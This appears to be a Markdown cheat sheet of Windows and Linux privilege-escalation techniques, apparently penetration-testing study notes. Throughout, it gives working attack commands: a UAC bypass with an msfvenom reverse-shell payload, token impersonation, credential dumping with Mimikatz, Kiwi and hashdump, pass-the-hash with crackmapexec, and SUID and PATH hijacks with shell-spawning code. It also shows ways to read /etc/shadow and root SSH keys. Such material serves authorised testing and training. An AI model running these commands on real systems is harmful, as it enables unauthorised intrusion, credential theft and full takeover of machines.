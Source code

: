 # 4 - Privilege Escalation

## $\color{#009466}\textbf{Windows}$

Note: if you have a valid user credential you can authenticate in windows target from SMB, RDP, WinRM\


<details>

<summary>$\huge{\text{Automation script}}$</summary>

* https://github.com/itm4n/PrivescCheck : useful for gather information
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"` : run from command prompt

\
\


</details>

<details>

<summary>$\huge{\text{UAC Bypass}}$</summary>

* User Account Control (UAC) is a feature that enables a consent prompt for elevated activities.
* Prerequisites:
  1. User must be a member of the Administrators group.
  2. `net localgroup administrators`
  3. Full interactive shell with the victim (a common nc.exe shell is not enough).
     * You can use meterpreter
* Metasploit
  * search module bypassuac ...
* UACME
  1. If architecture is x64 it's better to use meterpreter x64 or migrate to process x64 with sessions=1
     * `ps` to show process
     * (ex. `migrate <PID explorer.exe>`)
  2. Upload Akagi (Akagi64.exe if x64)
  3. Create payload with msfvenom
     * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o backdoor.exe`
  4. Use exploit/multi/handler to start a listener
  5. `Akagi64.exe 23 <payload_full_path>`
     * **NOTE FULL PATH**
  6. Once run, we will get meterpreter session - getprivs/getsystem to get elevated privs

\
\


</details>

<details>

<summary>$\huge{\text{Impersonate Tokens}}$</summary>

* With msfconsole: `load incognito`
* `list_tokens -u`
  * ```
     Delegation Tokens Available
     ========================================
     ATTACKDEFENSE\Administrator
     NT AUTHORITY\LOCAL SERVICE
     
     Impersonation Tokens Available
     ========================================
     No tokens available
    ```
* `impersonate_token <token_name>`
  * `impersonate_token ATTACKDEFENSE\\Administrator` **NOTE: the two backslashes**
* You may need to migrate process to a \<user> process
  *   Ex. `getpid` : 2628, `ps` :

      | PID  | PPID | Name           | Arch | Session | User                        | Path                    |
      | ---- | ---- | -------------- | ---- | ------- | --------------------------- | ----------------------- |
      | 2628 | 4780 | WHAYQtsbkO.exe |      | 1       |                             |                         |
      | ...  | ...  | ...            | ...  | ...     | ...                         | ...                     |
      | 2948 | 2036 | explorer.exe   | X64  | 1       | ATTACKDEFENSE\Administrator | C:\Windows\explorer.exe |
* `getpid` : 2948
* Of course you can repeat the process to become NT AUTHORITY\SYSTEM

\
\


</details>

<details>

<summary>$\huge{\text{Password in configuration file (Unattend.xml)}}$</summary>

* An answer file is an XML-based file that contains setting definitions and values to use during Windows Setup. Answer files (or Unattend files) are used by Administrators when they are setting up fresh images as it allows for an automated setup for Windows systems.
* ```
  C:\unattend.xml
  C:\Windows\Panther\Unattend.xml
  C:\Windows\Panther\Unattend\Unattend.xml
  C:\Windows\system32\sysprep.xml
  C:\Windows\system32\sysprep\sysprep.xml
  ```
* Extract password and decode it (from base64)

\
\


</details>

<details>

<summary>$\huge{\text{Credential Dumping (Mimikatz - Kiwi - Hashdump)}}$</summary>

* Prerequisites: User must be a member a local Administrators.

1. hashdump (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `hashdump`
2. Kiwi (Metasploit - Meterpreter)
   * You may need to migrate meterpreter to NT AUTHORITY\SYSTEM process (ex. `migrate <PID explorer.exe>`)
   * `load kiwi`
   * `creds_all` Retrieve all credentials (parsed)
   * `lsa_dump_sam` Here you can see that NTLM hashes for all of the user accounts on the system.
   * To find the clear text passwords : `lsa_dump_secrets`
     * However, from the Windows version 8.0+, windows don’t store any plain text password. So, it can be helpful for the older version of the Windows.
3. Mimikatz
   * upload mimikatz.exe
   * `\mimkatz.exe`
   * `privilege::debug` - should return Privilege '20' OK - This should be a standard for running mimikatz as it needs local administrator access
   * `lsadump::sam` : NTLM hashes for all of the user accounts on the system
   * `sekurlsa::logonpasswords` : To find the clear text passwords, but it's not always possible

\
\


</details>

<details>

<summary>$\huge{\text{Pass the Hash}}$</summary>

1. `crackmapexec smb <ip> -u <administrator> -H <NTLM hash> -x "ipconfig"`
2. Metasploit : windows/smb/psexec and set SMBPass with `<LM hash>:<NTLM hash>`
   * empty LM hash : `AAD3B435B51404EEAAD3B435B51404EE` (means its non-use).
     * `AAD3B435B51404EEAAD3B435B51404EE:<NTLM>`
   * With `hashdump` you have the right format

\
\


</details>

<details>

<summary>$\huge{\text{Other}}$</summary>

* Powershell History
* Saved Windows Credentials
  * cmdkey /list
  * runas /savecred /user:admin cmd.exe
* Scheduled Tasks
* Insecure Permissions on Service Executable
* Unquoted Service Paths
* Insecure Service Permissions
* Windows Privileges
* Unpatched Software

\
\


</details>

## $\color{#009466}\textbf{Linux}$

<details>

<summary>$\huge{\text{Vulnerable program}}$</summary>

* Search scripts that execute programs or programs. : Search for any vulnerable version. One example: chkrootkit v0.49 (running as root)
  * `ps aux`

\


</details>

<details>

<summary>$\huge{\text{Weak Permissions}}$</summary>

* `find / -not -type l -perm -o+w` : world-writable files
  * Example: maybe you can edit shadow file...

\


</details>

<details>

<summary>$\huge{\text{Sudo}}$</summary>

* `sudo -l`
  * search on gtfobins how to exploit

\


</details>

<details>

<summary>$\huge{\text{SUID - custom binary}}$</summary>

* Premise: you have `binary_name` (with suid) that use/load/execute `loaded_binary`
* Extract strings from the binary – look for shared libraries or binaries being loaded / executed at runtime
  * `strings binary_name`

1. Method
   * `cp /bin/bash /path/to/loaded_binary`
2. Method

* Delete the loaded binary and replace with a new one:
* ```
  #include <stdio.h>
  #include <stdlib.h>

  int main() {
      system("/bin/bash -i"); 
      return 0;
  }
  ```
* `gcc binary.c -o <loaded_binary>` : compile
* `./binary_name` : run the binary

\


</details>

<details>

<summary>$\huge{\text{Other}}$</summary>

* `sudo -l`
  * setenv?
* SUID/GUID
* Look for capabilities
* History Files
* Docker group
* Cron jobs
* SSH Keys
* PATH
* NFS
* Writable /etc/shadow
* Writable /etc/passwd
* Are there scripts that use commands?
  * If the command is executed without full path you can modify PATH variable
  * `strings <program_name>`
  * you see `tail -f /var/log/nginx/access.log`
  * ```
    #!/bin/bash
    /bin/bash -p
    ```
  * `chmod +x /tmp/tail`
  * `export PATH=/tmp:$PATH`
  * `./<program_name>`
* Is there a database? Can I access to it?
  * Look at config file or source code of webpages connecting to db
* Look at the source code of the php,py,jsp ... files of the website
  * Especially login files. Any password?
* Writable authorized\_key folder?
  * generate new ssh keys
* Can I read some file with sudo?
  * /root/root.txt, /etc/shadow, /root/.ssh/id\_rsa
* Can I write a file in the root user directory?
  * generate ssh key with ssh-keygen and save it in the root user dir
* Kernel Exploits
* Linpeas.sh
* [GTFObins](https://gtfobins.github.io)

\
\


</details>

## Resource

* **juggernaut-sec.com/blog/** Windows/Linux privesc and active directory hacking
* **gtfobins.github.io** _GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems_
* **github.com/carlospolop/PEASS-ng/tree/master/linPEAS** _Linux Privilege Escalation Awesome Script_
* **github.com/DominicBreuker/pspy** _Monitor linux processes without root permissions_
* **github.com/gtworek/Priv2Admin** _Windows Privileges with Windows OS privileges_
